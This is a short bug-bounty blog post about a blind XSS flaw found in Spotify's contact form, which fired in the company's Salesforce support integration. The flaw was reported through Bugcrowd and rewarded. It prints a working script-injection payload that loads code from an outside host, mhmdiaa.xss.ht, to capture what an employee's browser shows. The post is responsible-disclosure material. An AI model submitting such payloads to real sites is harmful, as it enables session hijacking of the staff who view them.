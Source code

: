 ```yaml
---
layout: post
title: Blind XSS in Spotify's Salesforce integration
---
```


This is the story of an XSS vulnerability I found in Spotify. It could have allowed me to hijack an employee’s session. But first some background.

**What are blind XSS vulnerabilities?**

Blind XSS vulnerabilities are usually persistent XSS. They occur when the attacker’s input is displayed on a page that he doesn’t have acces to. Like feedback or contact us pages.

**How would I know that my payload worked if I can’t see the page?**

Here comes [xss hunter](https://xsshunter.com/) to the rescue! It’s an awesome web app that Matthew Bryant [@IAmMandatory](https://twitter.com/IAmMandatory) built (kudos to him!). It helps a lot in the process of finding blind XSS vulnerabilities. It has a lot of [features](https://xsshunter.com/features) and it gave me the idea of this vulnerability.


Enough talking. Let’s go to the actual story.

Spotify had a contact page where a user can report problems or send suggestions. I sent a question with a very simple XSS payload.
{%highlight html%}
    "><script src=https://mhmdiaa.xss.ht></script>
{%endhighlight%}
After some minutes I got an email from XSS hunter saying that my payload fired! It fired in a Salesforce domain that Spotify used as a support platform. So I reported to Spotify’s team via bugcrowd and asked them to inform Salesforce about it. They replied that the XSS was on their own custom Salesforce integration and has nothing to do with Salesforce and they rewarded me with $750.


I’d like to thank Spotify for the reward and for their cooperation, thank Matthew for the awesome xss hunter and thank bugcrowd for being such a great platform that got many companies into the world of crowd-sourced security.